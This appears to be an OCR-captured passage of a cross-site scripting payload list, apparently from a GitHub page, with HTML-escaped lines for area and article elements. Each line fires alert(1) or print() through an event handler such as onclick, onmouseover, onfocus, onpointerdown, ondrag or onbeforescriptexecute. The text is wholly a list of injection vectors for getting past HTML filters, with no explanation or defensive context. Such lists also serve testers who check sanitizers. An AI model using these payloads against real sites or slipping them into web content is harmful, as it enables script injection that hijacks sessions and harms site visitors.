 &lt;area oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;area oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;area ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/area&gt;
&lt;area onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/area&gt;&lt;input autofocus&gt;
&lt;area onkeydown="alert(1)" contenteditable&gt;test&lt;/area&gt;
&lt;area onkeypress="alert(1)" contenteditable&gt;test&lt;/area&gt;
&lt;area onkeyup="alert(1)" contenteditable&gt;test&lt;/area&gt;
&lt;area onmousedown="alert(1)"&gt;test&lt;/area&gt;
&lt;area onmouseenter="alert(1)"&gt;test&lt;/area&gt;
&lt;area onmouseleave="alert(1)"&gt;test&lt;/area&gt;
&lt;area onmousemove="alert(1)"&gt;test&lt;/area&gt;
&lt;area onmouseout="alert(1)"&gt;test&lt;/area&gt;
&lt;area onmouseover="alert(1)"&gt;test&lt;/area&gt;
&lt;area onmouseup="alert(1)"&gt;test&lt;/area&gt;
&lt;area onmousewheel=alert(1)&gt;requires scrolling
&lt;area onpaste="alert(1)" contenteditable&gt;test&lt;/area&gt;
&lt;area onpointerdown=alert(1)&gt;XSS&lt;/area&gt;
&lt;area onpointerenter=alert(1)&gt;XSS&lt;/area&gt;
&lt;area onpointerleave=alert(1)&gt;XSS&lt;/area&gt;
&lt;area onpointermove=alert(1)&gt;XSS&lt;/area&gt;
&lt;area onpointerout=alert(1)&gt;XSS&lt;/area&gt;
&lt;area onpointerover=alert(1)&gt;XSS&lt;/area&gt;
&lt;area onpointerrawupdate=alert(1)&gt;XSS&lt;/area&gt;
&lt;area onpointerup=alert(1)&gt;XSS&lt;/area&gt;
&lt;article draggable="true" ondrag="alert(1)"&gt;test&lt;/article&gt;
&lt;article draggable="true" ondragend="alert(1)"&gt;test&lt;/article&gt;
&lt;article draggable="true" ondragenter="alert(1)"&gt;test&lt;/article&gt;
&lt;article draggable="true" ondragleave="alert(1)"&gt;test&lt;/article&gt;
&lt;article draggable="true" ondragstart="alert(1)"&gt;test&lt;/article&gt;
&lt;article id=x tabindex=1 onactivate=alert(1)&gt;&lt;/article&gt;
&lt;article id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/article&gt;
&lt;article id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/article&gt;&lt;input autofocus&gt;
&lt;article id=x tabindex=1 ondeactivate=print()&gt;&lt;/article&gt;&lt;input id=y autofocus&gt;
&lt;article id=x tabindex=1 onfocus=alert(1)&gt;&lt;/article&gt;
&lt;article id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/article&gt;
&lt;article onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;article onbeforecopy="alert(1)" contenteditable&gt;test&lt;/article&gt;
&lt;article onbeforecut="alert(1)" contenteditable&gt;test&lt;/article&gt;
&lt;article onbeforepaste="alert(1)" contenteditable&gt;test&lt;/article&gt;
&lt;article onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;article onblur=alert(1) tabindex=1 id=x&gt;&lt;/article&gt;&lt;input autofocus&gt;
&lt;article onclick="alert(1)"&gt;test&lt;/article&gt;
&lt;article oncontextmenu="alert(1)"&gt;test&lt;/article&gt;
&lt;article oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;article oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;article ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/article&gt;
&lt;article onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/article&gt;&lt;input autofocus&gt;
&lt;article onkeydown="alert(1)" contenteditable&gt;test&lt;/article&gt;
&lt;article onkeypress="alert(1)" contenteditable&gt;test&lt;/article&gt;
&lt;article onkeyup="alert(1)" contenteditable&gt;test&lt;/article&gt;
&lt;article onmousedown="alert(1)"&gt;test&lt;/article&gt;
&lt;article onmouseenter="alert(1)"&gt;test&lt;/article&gt;
&lt;article onmouseleave="alert(1)"&gt;test&lt;/article&gt;
&lt;article onmousemove="alert(1)"&gt;test&lt;/article&gt;
&lt;article onmouseout="alert(1)"&gt;test&lt;/article&gt;
&lt;article onmouseover="alert(1)"&gt;test&lt;/article&gt;
&lt;article onmouseup="alert(1)"&gt;test&lt;/article&gt;
&lt;article onmousewheel=alert(1)&gt;requires scrolling
&lt;article onpaste="alert(1)" contenteditable&gt;test&lt;/article&gt;
&lt;article onpointerdown=alert(1)&gt;XSS&lt;/article&gt;
&lt;article onpointerenter=alert(1)&gt;XSS&lt;/article&gt;
&lt;article onpointerleave=alert(1)&gt;XSS&lt;/article&gt;
&lt;article onpointermove=alert(1)&gt;XSS&lt;/article&gt;
&lt;article onpointerout=alert(1)&gt;XSS&lt;/article&gt;